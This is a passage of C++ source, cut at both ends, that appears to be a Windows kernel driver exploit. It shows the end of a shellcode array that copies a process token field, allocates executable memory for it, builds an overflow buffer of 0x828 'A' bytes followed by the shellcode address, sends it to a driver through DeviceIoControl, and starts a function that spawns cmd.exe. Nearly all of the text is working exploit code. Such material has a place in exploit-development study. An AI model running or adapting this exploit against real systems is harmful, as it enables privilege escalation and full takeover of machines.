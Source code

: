 ```cpp
        "\x39\x90\xB4\x00\x00\x00"
        "\x75\xED"
        "\x8B\x90\xF8\x00\x00\x00"
        "\x89\x91\xF8\x00\x00\x00"
        "\x61"
        "\x5d"
        "\xc2\x08\x00"
        );

    LPVOID shellcode_address = VirtualAlloc(NULL,
        sizeof(shellcode),
        MEM_RESERVE | MEM_COMMIT,
        PAGE_EXECUTE_READWRITE);

    memcpy(shellcode_address, shellcode, sizeof(shellcode));

    cout << "[>] RWX shellcode allocated at: " << hex << shellcode_address
        << "\n";

    BYTE input_buff[0x830] = { 0 };

    // 'A' * 0x828
    memset(input_buff, '\x41', 0x828);

    memcpy(input_buff + 0x828, &shellcode_address, 0x4);

    BYTE terminator[] = "\xb0\xb0\xd0\xba";

    memcpy(input_buff + 0x82c, &terminator, 0x4);

    cout << "[>] Sending buffer of size: " << sizeof(input_buff) << "\n";

    DWORD bytes_ret = 0x0;

    int result = DeviceIoControl(hFile,
        IOCTL,
        &input_buff,
        ULONG_MAX,
        NULL,
        0,
        &bytes_ret,
        NULL);

    if (!result) {
        cout << "[!] Payload failed.\n";
    }
}

void spawn_shell()
{
    PROCESS_INFORMATION Process_Info;
    ZeroMemory(&Process_Info, 
        sizeof(Process_Info));
    
    STARTUPINFOA Startup_Info;
    ZeroMemory(&Startup_Info, 
        sizeof(Startup_Info));
    
    Startup_Info.cb = sizeof(Startup_Info);

    CreateProcessA("C:\\Windows\\System32\\cmd.exe",
        NULL, 
        NULL, 
```